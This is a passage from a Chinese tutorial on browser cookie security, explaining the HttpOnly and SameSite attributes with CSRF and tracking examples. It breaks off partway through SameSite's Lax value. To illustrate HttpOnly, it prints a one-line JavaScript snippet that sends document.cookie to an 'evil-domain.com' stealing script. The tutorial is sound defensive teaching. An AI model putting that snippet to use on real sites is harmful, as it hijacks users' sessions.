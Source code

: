 **`HttpOnly` 属性指定该 `Cookie` 无法通过 JavaScript 脚本拿到，主要是 `document.cookie` 属性、`XMLHttpRequest` 对象和 `Request API` 都拿不到该属性。** 这样就防止了该 `Cookie` 被脚本读到，只有浏览器发出 HTTP 请求时，才会带上该 `Cookie`。

```javascript
new Image().src =
  'http://www.evil-domain.com/steal-cookie.php?cookie=' + document.cookie;
```

上面是跨站点载入的一个恶意脚本的代码，能够将当前网页的 Cookie 发往第三方服务器。如果设置了一个 Cookie 的 `HttpOnly` 属性，上面代码就不会读到该 `Cookie`。

### 3.4. SameSite

Chrome 51 开始，浏览器的 `Cookie` 新增加了一个 `SameSite` 属性，用来防止 `CSRF` 攻击和用户追踪。

`Cookie` 往往用来存储用户的身份信息，恶意网站可以设法伪造带有正确 `Cookie` 的 HTTP 请求，这就是 `CSRF` 攻击。

举例来说，用户登陆了银行网站 `your-bank.com`，银行服务器发来了一个 `Cookie`。

```http
Set-Cookie:id=a3fWa;
```

用户后来又访问了恶意网站 `malicious.com`，上面有一个表单。

```html
<form action="your-bank.com/transfer" method="POST">...</form>
```

用户一旦被诱骗发送这个表单，银行网站就会收到带有正确 Cookie 的请求。为了防止这种攻击，表单一般都带有一个随机 token，告诉服务器这是真实请求。

```html
<form action="your-bank.com/transfer" method="POST">
  <input type="hidden" name="token" value="dad3weg34" />
  ...
</form>
```

这种第三方网站引导发出的 Cookie，就称为第三方 Cookie。它除了用于 CSRF 攻击，还可以用于用户追踪。比如，`Facebook` 在第三方网站插入一张看不见的图片。

```html
<img src="facebook.com" style="visibility:hidden;" />
```

浏览器加载上面代码时，就会向 `Facebook` 发出带有 `Cookie` 的请求，从而 `Facebook` 就会知道你是谁，访问了什么网站。

`Cookie` 的 `SameSite` 属性用来限制第三方 `Cookie`，从而减少安全风险。它可以设置三个值。

- `Strict`
- `Lax`
- `None`

(1) Strict

Strict 最为严格，完全禁止第三方 Cookie，跨站点时，任何情况下都不会发送 Cookie。换言之，只有当前网页的 URL 与请求目标一致，才会带上 Cookie。

```http
Set-Cookie: CookieName=CookieValue; SameSite=Strict;
```

这个规则过于严格，可能造成非常不好的用户体验。比如，当前网页有一个 `GitHub` 链接，用户点击跳转就不会带有 `GitHub` 的 `Cookie`，跳转过去总是未登陆状态。

（2）Lax
